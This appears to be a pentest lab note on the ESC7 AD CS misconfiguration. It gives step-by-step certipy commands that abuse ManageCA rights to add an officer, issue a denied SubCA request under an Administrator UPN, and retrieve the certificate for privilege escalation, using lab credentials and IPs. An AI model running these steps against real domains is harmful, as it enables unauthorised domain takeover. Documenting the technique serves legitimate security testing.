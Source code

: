 ```yaml
---
title: ESC7
tags:
  - esc
  - adcs
---
```

### ESC7
This misconfiguration does not apply on certificate template but Certificate Authority (CA) configuration and applies when compromised user/group does have `Manage CA` permission on the CA. Hence, this special ACL can be ab(use)d to add another ACL, `Issue and Managed Certificate` to the controlled user/group in order to *issue* an invalid certificate request based on the certificate ID. 

**Requirements**

| Attributes                   | Value | Pre-requisite |
| ---------------------------- | ----- | ------------- |
| ManageCA                     | True  |               |
| Issue and Manage Certificate | True  | ManageCA      |


1. Verify CA configuration with [certipy](https://github.com/ly4k/Certipy). It should identify that the CA configuration is vulnerable to ESC7 attack with `lowpriv` user having `ManageCA` permission on the CA server.

```bash
certipy find -u 'lowpriv@bionic.local' -p 'Password1234' -dc-ip 10.66.66.3 -stdout -text -enabled -vulnerable
```

![[esc7_ca_vuln.png]]

![[esc7_gui_ca_vuln.png]]

2. We can basically configuration the CA! Now lets enable `Issue and Manage Certificates` on the compromised user `lowpriv`. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-add-officer` flag as follows:

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -add-officer 'lowpriv' -dc-ip 10.66.66.3 -target-ip 10.66.66.3
```

![Added extra permission for lowpriv user](esc7_add_officer.png)

3. Request **SubCA** certificate. This should throw errors `CERTSRV_E_TEMPLATE_DENIED`, basically saying we don't have permission to request for specified certificate. Please save the private key to be used later on.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -template SubCA -upn 'Administrator@bionic.local' -target 10.66.66.3 -dc-ip 10.66.66.3
```

![[esc7_init_req_failed.png]]

4. Having `Issue and Manage Certificates` permission enabled. Denied template can easily be issued back. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-issue-request` flag with request ID.

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -dc-ip 10.66.66.3 -target-ip 10.66.66.3 -issue-request 14
```

![[esc7_issue_certificate.png]]

5. Retrieve back the denied certificate request. Note that this steps will require the previously saved private key `<request-id>.key`.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -target 10.66.66.3 -retrieve 14
```

![[esc7_retrieve_certificate.png]]

6. Proceed with [Pass the Certificate](#pass-the-certificate) attack.
